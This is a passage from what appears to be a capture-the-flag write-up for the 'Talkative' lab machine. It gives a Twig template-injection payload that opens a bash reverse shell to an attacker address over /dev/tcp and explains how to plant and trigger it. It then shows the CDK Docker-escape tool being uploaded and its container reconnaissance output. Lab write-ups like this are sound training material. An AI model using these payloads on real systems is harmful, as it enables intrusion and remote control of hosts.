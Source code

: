 ![](screenshots/20220725225642.png)

Now, we need a reverse shell payload: `{{['bash -c "bash -i >& /dev/tcp/10.10.14.7/21916 0>&1"']|filter('system')}}`. Paste this into the template from before, clear the cache, start a reverse shell listener by executing `pwncat-cs -lp 21916`,  then make a request for `http://talkative.htb/`. This should spawn a reverse shell in yet another Docker container. The reverse shell can also be pasted into the `themes/base-2021/record.twig` file instead. Then, navigate to one of the people pages (like [this one](http://talkative.htb/person/matt-williams)) instead of the home page to spawn the shell.

## Foothold

The [Docker Breakout / Privilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation) page on HackTricks mentions a great tool called [CDK](https://github.com/cdk-team/CDK#installationdelivery) for breaking out of Docker containers. We [download the program from GitHub](https://github.com/cdk-team/CDK/releases/), upload it using pwntools by running `upload Downloads/cdk_linux_amd64` in the local shell, and then run a full scan with `./cdk_linux_amd64 eva --full`:

```
[Information Gathering - System Info]
2022/07/26 03:40:08 current dir: /tmp
2022/07/26 03:40:08 current user: www-data uid: 33 gid: 33 home: /var/www
2022/07/26 03:40:08 hostname: b2320c61b4fd
2022/07/26 03:40:08 debian debian 11.2 kernel: 5.4.0-81-generic

[Information Gathering - Services]

[Information Gathering - Commands and Capabilities]
2022/07/26 03:40:08 available commands:
        curl,find,ps,php,apt,dpkg,apache2,ssh,git,mount,gcc,g++,make,base64,perl
2022/07/26 03:40:08 Capabilities hex of Caps(CapInh|CapPrm|CapEff|CapBnd|CapAmb):
        CapInh: 0000000000000000
        CapPrm: 0000000000000000
        CapEff: 0000000000000000
        CapBnd: 00000000a80425fb
        CapAmb: 0000000000000000
        Cap decode: 0x0000000000000000 =
        Add capability list:
[*] Maybe you can exploit the Capabilities below:

[Information Gathering - Mounts]

[Information Gathering - Net Namespace]
        container net namespace isolated.

```